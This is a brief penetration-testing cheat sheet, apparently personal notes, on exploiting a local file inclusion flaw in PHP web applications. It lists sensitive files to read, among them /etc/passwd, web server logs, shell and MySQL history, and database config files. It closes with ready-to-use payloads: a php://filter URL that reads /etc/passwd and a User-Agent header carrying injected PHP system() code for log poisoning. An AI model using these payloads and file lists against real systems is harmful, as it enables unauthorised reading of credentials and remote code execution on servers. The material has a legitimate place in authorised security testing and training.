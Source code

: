 ### Files to usually check once you know you got an LFI

usually happens when you have dynamic content based on a parameter

#### common files
/etc/knockd.conf
/etc/default/knockd
/etc/issue
/etc/motd
/etc/group
/etc/passwd
/var/www/html/.htaccess
/etc/httpd/logs/acces_log
/etc/httpd/logs/error_log
/var/www/logs/access_log
/var/www/logs/access.log
/usr/local/apache/logs/access_log
/usr/local/apache/logs/access.log
/var/log/apache/access_log
/var/log/apache2/access_log
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/access_log

#### user home directory and root
.bash_history
.mysql_history
.my.cnf
.profile

#### configuration files
`find / -type f 2>/dev/null | grep -i conf`
db/db.php
db.php
session.php
config.php
mysql.conf

#### common things during LFI
?page=php://filter/convert.base64-encode/resource=/etc/passwd
User-Agent: Mozilla/5.0 <?php system('id');?> like Gecko
